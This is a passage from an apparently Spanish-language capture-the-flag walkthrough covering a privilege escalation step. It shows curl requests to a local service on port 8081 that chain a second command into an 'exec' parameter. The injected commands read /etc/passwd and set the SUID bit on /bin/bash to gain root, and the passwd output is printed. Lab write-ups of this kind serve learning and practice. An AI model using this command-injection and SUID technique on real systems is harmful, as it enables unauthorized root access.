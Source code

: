 ```
-rw-r--r-- 1 root root  587 Jul 23 11:23 root.txt
```

Como veremos funciona, por lo que cambiaremos los permisos de la `bash` para ser `root`, pero solo nos deja hacer `ls` o `whoami`, por lo que concatenaremos comandos para poder ejecutar lo que queramos.

```shell
curl -H "Authorization: Basic we_are_bones_513546516486484" "http://127.0.0.1:8081/?exec=whoami%3B%20cat%20%2Fetc%2Fpasswd"
```

Si primero hacemos ese `whoami` y despues leemos el `passwd` veremos que funciona, siempre codificandolo con URL Code.

Info:

```
root
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
skulloperator:x:1001:1001:skulloperator,,,:/home/skulloperator:/bin/bash
```

Ahora haremos lo de cambiar permisos en la `bash`.

```shell
curl -H "Authorization: Basic we_are_bones_513546516486484" "http://127.0.0.1:8081/?exec=whoami%3B%20chmod%20u%2Bs%20%2Fbin%2Fbash"
```

Y si vemos los permisos de la `bash`.

```shell
ls -la /bin/bash
```

